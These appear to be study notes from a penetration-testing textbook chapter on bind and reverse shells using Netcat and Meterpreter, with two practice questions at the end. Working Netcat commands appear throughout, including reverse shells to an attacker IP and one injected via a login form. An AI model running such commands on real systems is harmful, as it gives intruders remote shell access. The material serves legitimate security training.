 A _shell_ is a utility (software) that acts as an interface between a user and the operating system (the kernel and its services). For example, in Linux there are several shell environments, such as Bash, ksh, and tcsh. Traditionally, in Windows the shell is the command prompt (command-line interface), which is invoked by cmd.exe. Windows PowerShell is a newer Microsoft shell that combines the old CMD functionality with a new scripting/cmdlet instruction set with built-in system administration functionality. PowerShell cmdlets allow users and administrators to automate complicated tasks with reusable scripts.

**NOTE** Microsoft has released a full list of and documentation for all supported Windows commands; see [_https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands).

Let’s go over the differences between the bind and reverse shells. With a bind shell, an attacker opens a port or a listener on the compromised system and waits for a connection. This is done in order to connect to the victim from any system and execute commands and further manipulate the victim. Figure 8-1 illustrates a bind shell.

**_Figure 8-1_** _- A Bind Shell_

![[Pasted image 20240618085019.png]]

A reverse shell is a vulnerability in which an attacking system has a listener (port open), and the victim initiates a connection back to the attacking system. Figure 8-2 illustrates a reverse shell.

**_Figure 8-2_** _- A Reverse Shell_

![[Pasted image 20240618085053.png]]

Many tools allow you to create bind and reverse shells from a compromised host. Some of the most popular ones are the Meterpreter module in Metasploit and Netcat. Netcat is one of the best and most versatile tools for pen testers because it is lightweight and very portable. You can even see this spelled out in the first few paragraphs of the **netcat** man page, as shown in Example 8-1.

**_Example 8-1_** _-_ _The Netcat Tool_

![[Pasted image 20240618085139.png]]

Let’s look at Netcat in action. An attacker could use the **nc -lvp 1234 -e /bin/bash** command in the compromised system (192.168.78.6) to create a listener on port **1234** and execute (**-e**) the Bash shell (**/bin/bash**). This is demonstrated in Example 8-2. Netcat uses standard input (stdin), standard output (stdout), and standard error (stderr) to the IP socket.

**_Example 8-2_** _-_ _Creating a Bind Shell Using Netcat_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
```

**NOTE** In Windows systems, you can execute the cmd.exe command prompt utility with the **nc -lvp 1234 -e cmd.exe** Netcat command.

As shown in Example 8-3, on the attacking system (192.168.78.147), the **nc -nv 192.168.78.6 1234** command is used to connect to the victim. Once the attacker (192.168.78.147) connects to the victim (192.168.78.6), the **ls** command is invoked, and three files are shown in the attacker screen.

**_Example 8-3_** _-_ _Connecting to the Bind Shell by Using Netcat_

```
root@kali:~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

When the attacker connects, the highlighted message in Example 8-4 is displayed in the victim’s system.

**_Example 8-4_** _-_ _An Attacker Connected to a Victim Using a Bind Shell_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

One of the challenges of using bind shells is that if the victim’s system is behind a firewall, the listening port might be blocked. However, if the victim’s system can initiate a connection to the attacking system on a given port, a reverse shell can be used to overcome this challenge.

Example 8-5 shows how to create a reverse shell using Netcat. In this case, in order to create a reverse shell, you can use the **nc -lvp 666** command in the attacking system to listen to a specific port (port 666 in this example).

**_Example 8-5_** _-_ _Creating a Listener in the Attacking System to Create a Reverse Shell Using Netcat_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 
```

Then on the compromised host (the victim), you can use the **nc 192.168.78.147 666 -e /bin/bash** command to connect to the attacking system, as demonstrated in Example 8-6.

**_Example 8-6_** _-_ _Connecting to the Attacking System (Reverse Shell) Using Netcat_

```
omar@jorel:~$ nc 192.168.78.147 666 -e /bin/bash
```

Once the victim system (192.168.78.6) is connected to the attacking system (192.168.78.147), you can start invoking commands, as shown in the highlighted lines in Example 8-7.

**_Example 8-7_** _-_ _Executing Commands in the Victim’s System via a Reverse Shell_

![[Pasted image 20240618085631.png]]

Table 8-2 lists several useful Netcat commands that could be used in a penetration testing engagement.

**_Table 8-2_** _-_ _Useful Netcat Commands_

![[Pasted image 20240618085705.png]]

**NOTE** Additional Netcat commands and references for post-exploitation tools can be obtained from [_https://github.com/The-Art-of-Hacking/art-of-hacking_](https://github.com/The-Art-of-Hacking/art-of-hacking).

The Meterpreter module of the Metasploit framework can also be used to create bind and reverse shells and to perform numerous other post-exploitation tasks. Table 8-3 includes some of the most common Meterpreter commands.

**_Table 8-3_** _-_ _Common Meterpreter Commands_

![[Pasted image 20240618085811.png]]

**TIP** Metasploit Unleashed is a free detailed Metasploit course released by Offensive Security. The course can be accessed at [_https://www.offensive-security.com/metasploit-unleashed_](https://www.offensive-security.com/metasploit-unleashed).

---

You have discovered a remote code execution vulnerability on what appears to be an unauthorized web server set up by a Pixel Paradise developer. You have successfully injected and executed the following code into the server login form: **nc 192.168.78.145 777 -e /bin/bash**. On your penetration testing VM at 192.168.78.145, you have entered the following: **nc -lvp 777**. What type of access have you established to the victim?

In this scenario, the attacking system creates a reverse shell by first using the **nc -lvp 777** command to listen to a specific port (port 777) on the attacking machine. Then on the compromised host (the victim), you inject and execute the **nc 192.168.78.145 777 -e /bin/bash** command to establish a connection with the attacking system. Once the victim system (192.168.78.4) is connected to the attacking system (192.168.78.145), commands can be executed in the bash shell of the victim by the attacker.

---

You are getting familiar with the Meterpreter module of Metasploit in order to create bind and reverse shells and perform other post-exploitation tasks on a compromised system that is on a pentesting client's network. Match the Meterpreter command to its function.

![[Pasted image 20240618092143.png]]

### Tools 

Pwncat, an updated version of netcat, with more features.
https://github.com/calebstewart/pwncat